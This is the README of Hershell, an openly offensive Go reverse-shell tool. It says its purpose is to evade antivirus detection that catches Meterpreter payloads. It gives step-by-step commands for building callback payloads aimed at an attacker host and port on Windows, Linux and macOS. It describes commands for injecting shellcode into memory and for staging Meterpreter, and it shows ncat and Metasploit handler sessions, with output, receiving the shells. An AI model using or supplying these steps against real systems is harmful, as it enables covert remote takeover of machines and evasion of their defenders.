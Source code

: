 # Hershell

Simple TCP reverse shell written in [Go](https://golang.org).

It uses TLS to secure the communications, and provide a certificate public key fingerprint pinning feature, preventing from traffic interception.

Supported OS are:

- Windows
- Linux
- Mac OS
- FreeBSD and derivatives

## Why ?

Although meterpreter payloads are great, they are sometimes spotted by AV products.

The goal of this project is to get a simple reverse shell, which can work on multiple systems.

## How ?

Since it's written in Go, you can cross compile the source for the desired architecture.

## Getting started & dependancies

As this is a Go project, you will need to follow the [official documentation](https://golang.org/doc/install) to set up
your Golang environment (with the `$GOPATH` environment variable).

Then, just run `go get github.com/sysdream/hershell` to fetch the project.

### Building the payload

To simplify things, you can use the provided Makefile.
You can set the following environment variables:

- ``GOOS`` : the target OS
- ``GOARCH`` : the target architecture
- ``LHOST`` : the attacker IP or domain name
- ``LPORT`` : the listener port

For the ``GOOS`` and ``GOARCH`` variables, you can get the allowed values [here](https://golang.org/doc/install/source#environment).

However, some helper targets are available in the ``Makefile``:

- ``depends`` : generate the server certificate (required for the reverse shell)
- ``windows32`` : builds a windows 32 bits executable (PE 32 bits)
- ``windows64`` : builds a windows 64 bits executable (PE 64 bits)
- ``linux32`` : builds a linux 32 bits executable (ELF 32 bits)
- ``linux64`` : builds a linux 64 bits executable (ELF 64 bits)
- ``macos`` : builds a mac os 64 bits executable (Mach-O)

For those targets, you just need to set the ``LHOST`` and ``LPORT`` environment variables.

### Using the shell

Once executed, you will be provided with a remote shell.
This custom interactive shell will allow you to execute system commands through `cmd.exe` on Windows, or `/bin/sh` on UNIX machines.

The following special commands are supported:

* ``run_shell`` : drops you an system shell (allowing you, for example, to change directories)
* ``inject <base64 shellcode>`` : injects a shellcode (base64 encoded) in the same process memory, and executes it (Windows only at the moment).
* ``meterpreter [tcp|http|https] IP:PORT`` : connects to a multi/handler to get a stage2 reverse tcp, http or https meterpreter from metasploit, and execute the shellcode in memory (Windows only at the moment)
* ``exit`` : exit gracefully

## Usage

First of all, you will need to generate a valid certificate:
```bash
$ make depends
openssl req -subj '/CN=yourcn.com/O=YourOrg/C=FR' -new -newkey rsa:4096 -days 3650 -nodes -x509 -keyout server.key -out server.pem
Generating a 4096 bit RSA private key
....................................................................................++
.....++
writing new private key to 'server.key'
-----
cat server.key >> server.pem
```

For windows:

```bash
# Predifined 32 bit target
$ make windows32 LHOST=192.168.0.12 LPORT=1234
# Predifined 64 bit target
$ make windows64 LHOST=192.168.0.12 LPORT=1234
```

For Linux:
```bash
# Predifined 32 bit target
$ make linux32 LHOST=192.168.0.12 LPORT=1234
# Predifined 64 bit target
$ make linux64 LHOST=192.168.0.12 LPORT=1234
```

For Mac OS X
```bash
$ make macos LHOST=192.168.0.12 LPORT=1234
```

## Examples

### Basic usage

One can use various tools to handle incomming connections, such as:

* socat
* ncat
* openssl server module
* metasploit multi handler (with a `python/shell_reverse_tcp_ssl` payload)

Here is an example with `ncat`:

```bash
$ ncat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 1234
Ncat: Version 7.60 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 172.16.122.105.
Ncat: Connection from 172.16.122.105:47814.
[hershell]> whoami
desktop-3pvv31a\lab
```

### Meterpreter staging

**WARNING**: this currently only work for the Windows platform.

The meterpreter staging currently supports the following payloads :

* `windows/meterpreter/reverse_tcp`
* `windows/x64/meterpreter/reverse_tcp`
* `windows/meterpreter/reverse_http`
* `windows/x64/meterpreter/reverse_http`
* `windows/meterpreter/reverse_https`
* `windows/x64/meterpreter/reverse_https`

To use the correct one, just specify the transport you want to use (tcp, http, https)

To use the meterpreter staging feature, just start your handler:

```bash
[14:12:45][172.16.122.105][Sessions: 0][Jobs: 0] > use exploit/multi/handler
[14:12:57][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
[14:13:12][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > set lhost 172.16.122.105
lhost => 172.16.122.105
[14:13:15][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > set lport 8443
lport => 8443
[14:13:17][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > set HandlerSSLCert ./server.pem
HandlerSSLCert => ./server.pem
[14:13:26][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.

[*] [2018.01.29-14:13:29] Started HTTPS reverse handler on https://172.16.122.105:8443
[14:13:29][172.16.122.105][Sessions: 0][Jobs: 1] exploit(multi/handler) >
```

Then, in `hershell`, use the `meterpreter` command:

```bash
[hershell]> meterpreter https 172.16.122.105:8443
```

A new meterpreter session should pop in `msfconsole`:

```bash
[14:13:29][172.16.122.105][Sessions: 0][Jobs: 1] exploit(multi/handler) >
[*] [2018.01.29-14:16:44] https://172.16.122.105:8443 handling request from 172.16.122.105; (UUID: pqzl9t5k) Staging x64 payload (206937 bytes) ...
[*] Meterpreter session 1 opened (172.16.122.105:8443 -> 172.16.122.105:44804) at 2018-01-29 14:16:44 +0100

[14:16:46][172.16.122.105][Sessions: 1][Jobs: 1] exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  1         meterpreter x64/windows  DESKTOP-3PVV31A\lab @ DESKTOP-3PVV31A  172.16.122.105:8443 -> 172.16.122.105:44804 (10.0.2.15)

[14:16:48][172.16.122.105][Sessions: 1][Jobs: 1] exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: DESKTOP-3PVV31A\lab
```

## Credits

Ronan Kervella `<r.kervella -at- sysdream -dot- com>`
